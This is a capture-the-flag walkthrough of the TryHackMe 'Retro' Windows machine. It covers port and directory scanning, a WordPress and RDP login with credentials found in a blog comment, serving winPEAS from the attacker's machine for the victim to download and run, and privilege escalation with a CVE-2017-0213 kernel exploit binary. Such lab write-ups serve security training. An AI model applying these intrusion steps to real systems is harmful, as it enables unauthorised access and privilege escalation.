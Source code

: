 # Retro - THM
###  Difficulty level: Hard
------------------------------------------------------

Let's start with nmap scan:

```bash
nmap -sV -sC -Pn 10.10.254.2 -oN nmap_scan	
```
Results:
```bash
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-04-02T09:49:52
|_Not valid after:  2023-10-02T09:49:52
|_ssl-date: 2023-04-03T09:53:51+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-04-03T09:53:47+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
From this scan I can cocnlude this machine running on a Windows OS,
Also, ports 80 (http) and 3389 (rdp) are open, I'll start investigate the web page.

There is nothing on the first page:

![image](https://user-images.githubusercontent.com/114166939/229806780-8a9ddf5e-fe89-4eb4-863e-d5840f5420a0.png)


I'll try to find hidden directories on this web with gobuster:
```bash
gobuster dir -u http://10.10.254.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > dirs
```

Results:
```
/retro
```
First thing to see, this site built with WordPress, it can be noticed with wappalyzer extension.

![image](https://user-images.githubusercontent.com/114166939/229808095-c74ae384-0c2c-43d5-baa5-8b59b6492935.png)

Also, I'll run another brute-force directory to see if there are another hidden directories under the "/retro" directory:
```bash
gobuster dir -u http://10.10.254.2/retro/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > RetroDirs
```

Results:
```
/wp-includes
/wp-admin	
/wp-content
```
Also, after some crawling on the "/retro" directory, I found a comment at "http://10.10.254.2/retro/index.php/2019/12/09/ready-player-one/":

![image](https://user-images.githubusercontent.com/114166939/229811797-f0870872-40aa-4ff0-a587-e733349a2634.png)

Probably the word "parzival" means something.

Because this is a WordPress web, I can tell there is a wp-login directory here,
It's on the "http://10.10.254.2/retro/wp-login.php".

As a username I'll use "wade", the user who wrote the comment, and as a password I'll use "parzival".

Success login!

![image](https://user-images.githubusercontent.com/114166939/229812841-a178a7ae-d8fc-4fd3-b5d4-fdc33fa01a2c.png)

I'll guess this credentials will work with the RDP service too because of it's name - "RetroWeb".

I'm going to use "remmina" service to connect:

![image](https://user-images.githubusercontent.com/114166939/229813708-4c98ac5d-b856-4f54-8c11-7ba124d2c775.png)

Connected!

On the desktop there is a file called "user.txt", It can be easily opened and I have the first flag!

![image](https://user-images.githubusercontent.com/114166939/229814249-5c437137-4cdf-4056-8aa6-8e5321dc3743.png)

Next, I'll open a cmd for gathering more information about this machine:
```cmd
systeminfo
```
Results:

![image](https://user-images.githubusercontent.com/114166939/229815473-c090618e-7110-4040-b16a-26dd2166361f.png)

This is x64 processor architecture, windows servers 2016, standalone computer.

```cmd
net users && net localgroup
```

![image](https://user-images.githubusercontent.com/114166939/229816484-d7fcea0c-7de4-4a59-8b80-600fc8559e53.png)

```cmd
net localgroup Administrators
```

![image](https://user-images.githubusercontent.com/114166939/229817126-ffcf7ce4-1ce4-4685-a2c3-e53344edbea4.png)

Wade is a weak user I'll try privilege escalation.

For that I'll need winPEASx64.exe from "https://github.com/carlospolop/PEASS-ng/releases/tag/20230402".

Next, I'll run a python3 server to download it on the victim machine:
```python3
python3 -m http.server
```

I'll open "Google chrome" and run "http://10.14.50.11:8000/winPEASx64.exe", download the file
and run it.

One of the many vulnerabilities it found is "CVE-2017-0213"!


This CVE exploit the kernel and grant NT-AUTHORITY permissions.

I found a github page with this exploit "https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213",

Download to my machine the "CVE-2017-0213_x64.zip", unzip it, and now I'll upload it to the victim machine as I did before, with python3 server.


I'll run the file from the cmd:
```cmd
CVE-2017-0213_x64.exe
```

![image](https://user-images.githubusercontent.com/114166939/229829593-df5bbce4-09b4-40c5-bec5-a7e50282217b.png)


Got NT-AUTHORITY user!

Now all left to do is to open the Administrator directory and print the "root.txt" flag!

```cmd
type C:\Users\Administrator\Desktop\root.txt.txt
```

![image](https://user-images.githubusercontent.com/114166939/229826500-f97a8b4f-e697-44d8-b1da-ba574e0b50e8.png)

